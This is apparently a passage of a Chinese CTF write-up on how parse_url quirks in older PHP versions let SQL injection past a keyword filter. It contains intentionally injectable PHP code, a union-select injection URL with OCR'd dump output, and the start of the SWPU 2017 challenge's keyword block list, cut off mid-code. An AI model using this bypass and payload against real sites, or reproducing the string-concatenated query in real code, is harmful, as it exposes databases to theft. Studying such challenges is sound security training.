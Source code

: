 ```php
    $sql = "select  from ctf where id='".$_GET['id']."'";
    var_dump($sql);
}
waf();
```

- http://localhost//exp.php?/1=1&id=1' union select 1,2,3#

php7.2

```
array (size=2)
 'host' =>string 'exp.php' (length=7)
 'query' => string '/1=i&id=1%27%20union%20select%201,2,3'(length=37)
array (size=2)
 '/1'=>string 'l'(length=1)
 'id' =>string 'l' union select 1,2,3'(length=21)
```

php5.3

```
array (size=2)
	'host’=> string 'exp. php?’(length=8)
	'path’=> string '/1=1&id=1%27%20union%20select%201,2,3’(length=37)

array (size=2)
	'/1’=> string '1’(1length=1)
	'id’=> string 'l’union select 1,2,3’(1ength=21)
```

可以看到在5.3版本中query直接就是空的，所有参数都在path中，直接绕过过滤

### [SWPU 2017]

```php
<?php
error_reporting(0);
$_POST=Add_S($_POST);
$_GET=Add_S($_GET);
$_COOKIE=Add_S($_COOKIE);
$_REQUEST=Add_S($_REQUEST);
function Add_S($array){
    foreach($array as $key=>$value){
        if(!is_array($value)){
            $check= preg_match('/regexp|like|and|\"|%|insert|update|delete|union|into|load_file|outfile|\/\/i', $value);
            if($check)
                {
                exit("Stop hacking by using SQL injection!");
            }
        }else{
            $array[$key]=Add_S($array[$key]);
        }
    }
return $array;
}
function check_url()
{
    $url=parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    $key_word=array("select","from","for","like");
    foreach($query as $key)
    {
        foreach($key_word as $value)
        {
            if(preg_match("/".$value."/",strtolower($key)))
```